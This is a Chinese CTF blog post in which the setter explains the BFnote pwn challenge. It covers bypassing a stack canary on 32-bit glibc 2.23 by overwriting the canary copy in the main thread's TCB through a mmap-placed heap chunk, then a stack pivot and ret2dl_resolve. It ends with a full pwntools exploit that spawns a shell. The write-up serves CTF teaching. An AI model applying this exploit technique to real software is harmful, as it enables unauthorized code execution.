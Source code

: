 ```yaml
---
layout:     post
title:      "春秋杯网络安全公益联赛 BFnote出题小结"
subtitle:   "新春战疫，为逆行者加油！"
date:       2020-02-24 11:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - CTF
 
---
```


>博客就快长草了

### [出题思路]： 

常规栈溢出的canary绕过方法有leak，fork爆破，劫持`__stack_chk_fail`,还有一种就是覆盖TLS中储存的Canary值。之前starctf2018中有一道babystack就是利用这一方法，但是那道题是跑了新个线程。

这样的话thread_stack线程栈中，TCB结构在thread_stack的高地址，当前栈帧在低地址，所以只要溢出长度够大就能覆盖到TCB中的canary。

但是对于主线程来说，在glibc2.23 32位环境下，TLS被初始化时存在一点问题，特殊情况下导致TCB结构的地址可定位

### [writeup]：


1.检查题目保护，发现开了CANARY与NX

```python
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```


2.发现存在栈溢出与堆地址任意偏移写任意值 可利用

```c
unsigned int __cdecl main()
{
  signed int i; // [esp+4h] [ebp-54h]
  int size; // [esp+8h] [ebp-50h]
  char *v3; // [esp+Ch] [ebp-4Ch]
  int v4; // [esp+14h] [ebp-44h]
  char description; // [esp+1Ah] [ebp-3Eh]
  unsigned int v6; // [esp+4Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  menu();
  fwrite("\nGive your description : ", 1u, 0x19u, stdout);
  memset(&description, 0, 0x32u);
  myread(0, &description, 1536);   //栈溢出
  fwrite("Give your postscript : ", 1u, 0x17u, stdout);
  memset(&postscript, 0, 0x64u);
  myread(0, &postscript, 1536);
  fwrite("\nGive your notebook size : ", 1u, 0x1Bu, stdout);
  size = get_long();
  v3 = (char *)malloc(size);
  memset(v3, 0, size);
  fwrite("Give your title size : ", 1u, 0x17u, stdout);
  v4 = get_long();
  for ( i = v4; size - 32 < i; i = get_long() )   //重复输入
    fwrite("invalid ! please re-enter :\n", 1u, 0x1Cu, stdout);
  fwrite("\nGive your title : ", 1u, 0x13u, stdout);
  myread(0, v3, i);
  fwrite("Give your note : ", 1u, 0x11u, stdout);
  read(0, &v3[v4 + 16], size - v4 - 16);  // 逻辑漏洞，错误的使用了重复输入之前的值，基于堆地址任意地址写
  fwrite("\nnow , check your notebook :\n", 1u, 0x1Du, stdout);
  fprintf(stdout, "title : %s", v3);
  fprintf(stdout, "note : %s", &v3[v4 + 16]);
  return __readgsdword(0x14u) ^ v6;

```

3.当一个函数被调用，当前线程的tcbhead_t.stack_guard会放置到栈上(也就是canary)，32位下gs寄存器指向tcb，可以细看源码。在函数调用结束的时候，栈上的值被和tcbhead_t.stack_guard比较，如果两个值是不 相等的，程序将会返回error并且终止。 

```c
typedef struct {   
void *tcb;        /* Pointer to the TCB.  Not necessarily the thread descriptor used by libpthread.  */   
dtv_t *dtv;   
void *self;       /* Pointer to the thread descriptor.  */   
int multiple_threads;   
int gscope_flag;   
uintptr_t sysinfo;   
uintptr_t stack_guard;   
uintptr_t pointer_guard;   
... } tcbhead_t; 

```


4.在glibc2.23-i386的环境下，main线程的tcb块被mmap初始化在libc内存布局上方。

```python
 ►   0x8048772    mov    eax, dword ptr gs:[0x14] 

EAX  0x5ba0b500

```

```python

pwndbg> search -p 0x5ba0b500
                0xf7e00714 0x5ba0b500
[stack]         0xffffcecc 0x5ba0b500
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7e00000 0xf7e01000 rw-p     1000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

可以看到canary在0xf7e00714这个地址刚好在libc-2.23.so代码段上方


5.当调用malloc申请内存时，若size大于等 mmap分配阈值（默认值 128KB）0x200000时，malloc会调用mmap申请内存，且申请的内存可以观察到同样在libc上方。

```python

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7bff000 0xf7e01000 rw-p   202000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

6.利用思路就是在最开始栈溢出的时候将canary填成值A，并做好栈迁移的准备，在.bss构造resolve数据，
申请notebook大小0x200000，使其地址在libc上方；tille大小故意输错成堆地址ptr到tcb中canary的偏移，二次输入时给一个正确值，这下在输入note内容时就可以修改tcb中canary的值为A。main函数返回时绕过canary检查，迁移去执行dl_rutime_resolve，有个坑是由于栈迁移，尽量迁移后抬到bss高地址处执行，resolve数据尽量放到比指令更高的地址。



7.EXP

```python

from pwn import *
context(os='linux', arch='i386', log_level='debug')
#[author]: b0ldfrev

p= process('./BFnote')

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        print "breakpoint_addr --> " + hex(text_base + 0x202040)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr))) 

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)


dl_resolve_data="\x80\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x37\x66\x66\x5a\x6d\x59\x50\x47\x60\xa1\x04\x08\x07\x25\x02\x00\x73\x79\x73\x74\x65\x6d\x00"
dl_resolve_call="\x50\x84\x04\x08\x70\x20\x00\x00"



canary=0xdeadbe00
postscript=0x804A060
#correct=0x804a428

payload1="1"*0x32+p32(canary)+p32(0)+p32(postscript+4+0x3a8)

ru("description : ")
sd(payload1)


payload2="s"*0x3a8+dl_resolve_call+p32(0x12345678)+p32(postscript+0x3b8)+"/bin/sh\x00"+p64(0)+dl_resolve_data

ru("postscript : ")
sd(payload2)


ru("notebook size : ")
sl(str(0x200000))

ru("title size : ")
sl(str(0x20170c-0x10))

ru("please re-enter :\n")
sl(str(100))

ru("your title : ")
sl("2222")

ru("your note : ")

sd(p32(canary))

p.interactive()

```


8.程序我忘了设置sleep，所以还存在极小概率的canary爆破，比赛时间那么长，就3个字节嘛 ~ 手动狗头，如果各位大师傅还有非预期 欢迎讨论~


>[下载](https://github.com/yxshyj/project/tree/master/pwn/BFnote)